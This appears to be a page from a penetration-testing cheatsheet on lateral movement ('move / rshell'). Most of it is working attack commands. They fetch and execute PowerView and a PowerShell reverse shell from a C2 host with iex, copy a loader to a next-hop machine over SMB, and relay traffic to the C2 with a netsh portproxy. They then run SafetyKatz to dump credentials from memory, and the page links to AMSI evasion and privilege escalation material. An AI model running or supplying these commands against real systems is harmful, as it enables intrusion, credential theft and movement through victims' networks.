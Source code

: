 ```yaml
---
layout: post
title: move / rshell
category: 05-move
parent: cheatsheets
modified_date: 2024-11-28
permalink: /move/rshell
---
```


**Menu**
<!-- vscode-markdown-toc -->
* [load](#load)
	* [load-c2agent](#load-c2agent)
	* [load-powersploit](#load-powersploit)
	* [load-rshell](#load-rshell)
	* [load-rubeus](#load-rubeus)
* [run](#run)
	* [evasion-amsi](#evasion-amsi)
	* [privesc](#privesc)
	* [discov-ad-iter](#discov-ad-iter)
	* [creds-dump](#creds-dump)
* [pivot](#pivot)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

[](assets/images/pen-ta0007-discov-t1046-scan-net-svc.png)

## <a name='load'></a>load

### <a name='load-c2agent'></a>load-c2agent

* [havoc-framework](https://havocframework.com/docs/welcome)

### <a name='load-powersploit'></a>load-powersploit
* [discov/ad#load-powersploit](/discov/ad#load-powersploit)
```sh
iex ($zc2srv_ip="")
iex ((New-Object Net.WebClient).DownloadString("http://${zc2srv_ip}/PowerView.ps1"))
```

### <a name='load-rshell'></a>load-rshell
* [samratashok/nishang](https://github.com/samratashok/nishang/tree/master/Shells)
* [shell-storm](https://shell-storm.org/shellcode/index.html)

```sh
# python
python -c 'import pty; pty.spawn("/bin/bash")'

# powershell
powershell.exe iex (iwr http://${zc2srv_ip}/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress ${zc2srv_ip} -Port 443
```

### <a name='load-rubeus'></a>load-rubeus
* [creds/krb#load-rubeus](/creds/krb#load-rubeus)

## <a name='run'></a>run

### <a name='evasion-amsi'></a>evasion-amsi

* [evasion/win#amsi](/evasion/win#amsi)

### <a name='privesc'></a>privesc

* [privesc/win#load-privescCheck](/privesc/win#load-privescCheck)
* [privesc/win#load-powerup](/privesc/win#load-powerup)

### <a name='discov-ad-iter'></a>discov-ad-iter

* [discov/ad#run-shadowhound](/discov/ad#run-shadowhound)
* [discov/ad#run-sharphound](/discov/ad#run-sharphound)
* [discov/ad#iter](/discov/ad#iter)

### <a name='creds-dump'></a>creds-dump

* [creds/krb](/creds/krb)

## <a name='pivot'></a>pivot

```sh
$zc2srv_ip=""
$zpayload=""
$ztarg_nexthop_name=""
# ztarg_computer : download zpayload from zc2srv  
iex ($zpayload="Loader.exe") #dinvoke
iex ($zpayload="PowerUp.ps1")
iwr http://${zc2srv_ip}/${zpayload} -OutFile C:\User\Public\${zpayload}

# ztarg_computer : upload zpayload to ztarg_nexthop
# Copy-Item C:\Users\Public\${zpayload} \\${ztarg_nexthop_name}\C$\Users\Public\${zpayload}
echo Y | xcopy C:\Users\Public\${zpayload} \\${ztarg_nexthop_name}\C$\Users\Public\${zpayload}
$null | winrs -r:${ztarg_nexthop_name} "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=${zc2srv_ip}"
$null | winrs -r:${ztarg_nexthop_name} "cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::evasive-keys exit"
#$null | winrs -r:dcorp-mgmt 'export $zc2srv_ip=""'
#$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=${zc2srv_ip}"
```
